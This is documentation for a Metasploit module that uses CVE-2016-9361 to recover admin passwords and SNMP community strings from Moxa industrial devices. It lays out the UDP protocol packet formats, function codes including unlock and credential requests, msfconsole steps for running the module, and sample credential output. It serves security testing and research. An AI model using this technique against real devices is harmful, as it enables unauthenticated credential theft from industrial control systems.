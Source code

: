 ## Vulnerable Application
  Many Moxa devices make use of a protocol that is vulnerable to unauthenticated credential retrieval via exploitation of CVE-2016-9361.  The service is known 
  to be used on Moxa devices in the NPort, OnCell, and MGate product lines.
  
  This module leverages CVE-2016-9361 to retrieve admin passwords and SNMP 
  community strings, as well as enumerate all possible function codes.  The supporting research and Metasploit module are the work of Patrick DeSantis 
  of Cisco Talos and K. Reid Wightman.

  The module has been tested on Moxa NPort 6250 firmware v1.13, MGate MB3170 
  firmware v2.5, and NPort 5110 firmware v2.6.

### The Moxa Protocol
  The Moxa protocol listens on 4800/UDP and will respond to broadcast or direct traffic.  The protocol is utilized by devices in several product lines and 
  Moxa applications in order to manage and configure network-deployed devices.

#### Discovery / Identify
  A discovery packet compels a Moxa device to respond to the sender with some
  basic device information that is needed for more advanced functions.  The 
  discovery data is 8 bytes in length and is the most basic example of the Moxa protocol.  It may be sent out as a broadcast (destination 255.255.255.255) or
  to an individual device.

  The discovery request contains the bytes:
```
  \x01\x00\x00\x08\x00\x00\x00\x00
```
  Where the function code (first byte) 0x01 is Moxa discovery/identify
  and the fourth byte is the length of the full data payload.

##### Discovery Response
  A valid response is 24 bytes, starts with 0x81, and contains the values
  0x00, 0x90, 0xe8 (the Moxa OIU) in bytes 14, 15, and 16.
  
  A response with a value of 0x04 for the second byte indicates that an invalid
  function code was used in the corresponding request.

  The response can be broken down as follows:

  * Byte 0x0 identifies the packet as a response to the request. The first byte of a response will always be the FC + 0x80 (the most significant bit of the byte is set to 1, so 0b00000001 becomes 0b10000001, or 0x81 as response to identify 0x01).
  * Bytes 0x1-0x2 are unknown, may be padding
  * Byte 0x3 is the length of the datagram payload
  * Bytes 0x4-0x7 are unknown, may be padding
  * Bytes 0x8-0x9 may be the product line in little endian.  For example, an NPort 6250 is part of the 6000 line, so bytes 8 and 9 will be 0x00 and 0x60 respectively.
  * Bytes 0xA-0xB are unknown but always seem to be 0x00 and 0x80 respectively.
  * Bytes 0xC-0xD are the model number in little endian, so the NPort 6250 is 0x50 and 0x62 respectively.
  * Bytes 0xE-0x13 are the MAC address of the device
  * Bytes 0x14-0x17 are the IP address

  Here's a sample response from an NPort 6250 with the default IP address of 192.168.127.254 and a MAC of 00:90:e8:15:1c:22:
```
  0000  81  00  00  18  00  00  00  00  00  60  00  80  50  62  00  90
  0010  e8  15  1c  22  c0  a8  7f  fe	 	 	 	 	 	 	 	 

  Model:  0x50 0x60 = 6250
  MAC:  00:90:e8:15:1c:22
  IP: c0:a8:7f:fe = 192.168.127.254
```
#### Other Functions
  The values from the response are then used to craft a new request with the below format:

  * Byte 0x0 is the function code
  * Bytes 0x1-0x2 are unknown, may be padding
  * Byte 0x3 is the length of the datagram payload
  * Bytes 0x4-0x7 are unknown, may be padding
  * Bytes 0x8-0x9 are the product line in little endian
  * Bytes 0xA-0xB are the unknown 0x00 0x80
  * Bytes 0xC-0xD is the model number in big endian
  * Bytes 0xE-0x13 is the MAC

  The module takes a valid response from discovery/ident and parses out the appropriate bytes to use as a "tail" which is appended to all subsequent requests.
```
  tail = response[8..24]
```
  The tail is then used as shown below:
```
  datagram = fc[func] + "\x00\x00\x14\x00\x00\x00\x00" + tail
```
  For all function codes other than identify (0x01), as long as the "tail" values in the request match those of the target, the device will execute the function defined by the value in byte 0x0.

##### Other Known and Suspected Function Codes
  Function codes fall in the range of 0x01 to 0x7F.

  The below function codes are included in the module, even if unused.  The intent is that the user may modify the module as needed to make use of other function codes.
```
  'ident'         =>  "\x01",   # identify device
  'name'          =>  "\x10",   # get the "server name" of the device
  'netstat'       =>  "\x14",   # network activity of the device
  'unlock1'       =>  "\x16",   # "unlock" some devices, including 5110, MGate
  'date_time'     =>  "\x1a",   # get the device date and time
  'time_server'   =>  "\x1b",   # get the time server of device
  'unlock2'       =>  "\x1e",   # "unlock" 6xxx series devices
  'snmp_read'     =>  "\x28",   # snmp community strings
  'pass'          =>  "\x29",   # admin password of some devices
  'all_creds'     =>  "\x2c",   # snmp comm strings and admin password of 6xxx
```

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/scada/moxa_credentials_recovery```
  3. Do: ```set RHOST <target IP>```
  4. Do: ```run```
  5. Any found credentials will be stored in loot (set VERBOSE to TRUE to have credentials output to console)

## Options

### FUNCTION

  Either CREDS (default) or ENUM:
  * CREDS attempts to retrieve administrative password and SNMP community strings
  * ENUM will enumerate all function codes in the range 0x2..0x7F

## Scenarios
### Check
  The module implements a check function to determine if a target "speaks" the Moxa protocol.  It does this using the 0x01 function code and checking for a valid response of 24 bytes, starting with 0x81, and containing the values 0x00, 0x90, 0xe8 (the Moxa OIU) in bytes 14, 15, and 16.
```
if response[0] == "\x81" && response[14..16] == "\x00\x90\xe8" && response.length == 24
```
### Output Hexdump to Console
  To output hexdump responses to console:
  ```
  msf > use auxiliary/admin/scada/moxa_credentials_recovery
  msf auxiliary(moxa_credentials_recovery) > set RHOST <target IP>
  msf auxiliary(moxa_credentials_recovery) > set VERBOSE TRUE
  msf auxiliary(moxa_credentials_recovery) > run
  ```
  Sample verbose output:
  ```
  ... SNIP...
  [*] Response:
  90 00 00 3c 00 00 00 00 00 60 00 80 50 62 00 90    |...<.....`..Pb..|
  e8 15 1c 22 4e 50 36 32 35 30 5f 35 38 39 36 00    |..."NP6250_5896.|
  10 00 11 00 12 00 13 00 14 00 15 00 16 00 17 00    |................|
  18 00 19 00 1a 00 1b 00 1c 00 1d 00                |............|
  ... SNIP ...

  [*] snmp community retrieved: public_admin
  [*] snmp read/write community retrieved: private_admin
  [*] password retrieved: secretpassword
  ... SNIP ...
  ```

### Enumerate All Function Codes
  To enumerate ALL function codes :

  ```
  msf > use auxiliary/admin/scada/moxa_credentials_recovery
  msf auxiliary(moxa_credentials_recovery) > set RHOST <target IP>
  msf auxiliary(moxa_credentials_recovery) > set FUNCTION ENUM
  msf auxiliary(moxa_credentials_recovery) > run
  ```
  Sample ENUM output:
  ```
  ... SNIP...
  [*] Function Code: 14    |.|


  [*] Response:
  94 00 01 08 00 00 00 00 00 60 00 80 50 62 00 90    |.........`..Pb..|
  e8 15 1c 22 0f 00 00 00 00 00 00 00 00 00 00 00    |..."............|
  00 00 00 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 c0 12 00 00 ff 00 00 00 00 00 00 00 00 00    |................|
  00 00 a1 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 89 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 24 13 01 01 ff 00 00 00 00 00 00 00 00 00    |..$.............|
  00 00 b5 03 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 34 3a 01 01 00 00 00 00 00 00 c0 a8 7f fe    |..4:............|
  00 00 17 00 01 01 00 00 00 00 00 00 c0 a8 7f fe    |................|               
  ... SNIP ...

  ```
  Note that the above response is an example of the utility of using ENUM.  This function code (0x14) returns a netstat-type response.  Output similar to the above will be displayed for every function code that does not return 'invalid' (0x4).  This may also be useful for devices that do not "unlock" using the function codes supplied in this module; by running through all function codes in sequence, it is likely that an alternate "unlock" function will be sent prior to any function codes that request credentials.

  NOTE: As the protocol is undocumented and the purpose of a majority of the function codes are unknown, undesired results are possible.  Do NOT use on devices which are mission-critical!
